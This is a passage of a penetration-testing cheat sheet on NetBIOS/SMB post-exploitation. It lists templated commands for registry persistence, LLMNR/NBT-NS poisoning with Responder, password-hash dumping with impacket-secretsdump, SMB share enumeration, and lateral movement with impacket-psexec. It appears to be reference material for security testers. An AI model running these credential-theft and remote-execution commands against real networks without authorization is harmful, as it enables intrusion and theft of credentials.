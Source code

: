 #### Registry Persistence

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetBT\Parameters" /v EnableLMHosts /t REG_DWORD /d 1 /f
    ```
* **Description:** Modify registry settings to ensure NetBIOS services start with the system, maintaining a foothold.

### Credential Harvesting

#### LLMNR/NBT-NS Poisoning

*   **Tool:** \[\[Responder Cheat Sheet]]

    ```bash
    sudo responder -I <interface>
    ```
* **Description:** Poison LLMNR/NBT-NS requests to intercept and capture NetBIOS credentials.

#### Dumping Password Hashes

*   **Tool:** \[\[Impacket-SecretsDump]]

    ```bash
    impacket-secretsdump <username>:<password>@<target_ip>
    ```
* **Description:** Extracts password hashes from the SMB server for offline cracking or pass-the-hash attacks.

### Internal Reconnaissance

#### SMB Enumeration

* **Tool:** \[\[SMBMap]]

```bash
smbmap -H <target_ip>
```

* **Description:** Enumerates accessible SMB shares on internal network systems, identifying potential data sources.

### Lateral Movement, Pivoting, and Tunnelling

#### Using SMB for Lateral Movement

*   **Tool:** \[\[Impacket-PSExec]]

    ```bash
    impacket-psexec <domain>/<username>:<password>@<target_ip> cmd
    ```
* **Description:** Executes commands on remote systems using SMB, enabling lateral movement across the network.
